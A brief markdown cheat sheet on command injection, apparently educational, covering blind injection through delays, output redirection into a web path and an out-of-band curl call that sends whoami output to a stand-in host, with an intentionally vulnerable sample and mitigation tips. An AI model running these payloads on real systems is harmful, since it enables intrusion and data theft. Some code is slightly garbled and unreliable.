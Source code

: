 # 💉 Command Injection

Command Injection is a vulnerability that occurs when a user manages to execute commands in an application by manipulating parameters.

## 👨🏻‍🦯 Blind Command Injection

This occurs when the result of the command is not returned to the user. In this case, we can use some tactics to obtain this result.

**Example**:

```javascript
function sleep(time) {
    return os.execute("sleep" + time)
}
```

### Delays
```shell
sleep 10 & ping -c 50 localhost
```

### Outbound redirection
```shell
sleep 10 & whoami > / www /default/output.txt
```

### Interaction with external service
```shell
sleep 10 & curl https://foosite.com/$(whoami)
```

## 🛡️ Mitigation
```http
Do not execute commands on the system that receive user input.
```

- Validate that the user's input is as expected (only numbers, only letters and numbers, etc).

- Limit as much as possible the local permissions of the user who is used to execute the commands.

- Limit the machine used to execute commands as much as possible (block outgoing network traffic, limit traffic on the local network, etc).